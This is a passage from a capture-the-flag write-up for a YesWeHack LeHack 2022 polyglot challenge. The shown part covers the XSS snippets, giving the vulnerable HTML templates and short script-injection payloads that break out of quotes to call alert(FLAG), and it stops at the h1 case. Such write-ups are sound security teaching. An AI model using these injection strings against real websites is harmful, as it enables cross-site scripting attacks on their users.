 # WriteUP Challenge YesWeHack LeHack 2022

> Writed By Maxime Bru, Aku --> @akumarachi & https://github.com/Hakumarachi
>
> Challenge created by @BitK_

The objective of this challenge is to write a polyglot payload that will print the flag within 12 code snippets at the same time. 

The user with the smaller payload that flag the all 12 snippets win the challenge.

The 12 code snippets aim different technologies like Bash or Jinja2.

In order to solve the challenge, we must cut  it in 3 different parts.

## Get a working payload for all code snippets

### XSS

In this challenge there is 4 XSS. To solve it, we just have to alert the FLAG variable :

- In script tag with quote

```html
<html><body>
  <script>
    const FLAG = "FLAG"
    const x = "PAYLOAD"
  </script>
</body></html>
```

The payload is loaded inside quotes, a quot escape following by comment marker is enough to flag it : 

```html
"; alert(FLAG) //
```

-  In script tag without quote

```html
<html><body>
  <script>
    const FLAG = "FLAG"
    const x = PAYLOAD
  </script>
</body></html>
```

```
1; alert(FLAG);
```

- in h1 tag

```html
<html><body>
  <script>var FLAG = "FLAG"</script>
  <h1>Hello PAYLOAD</h1>
</body></html>
```
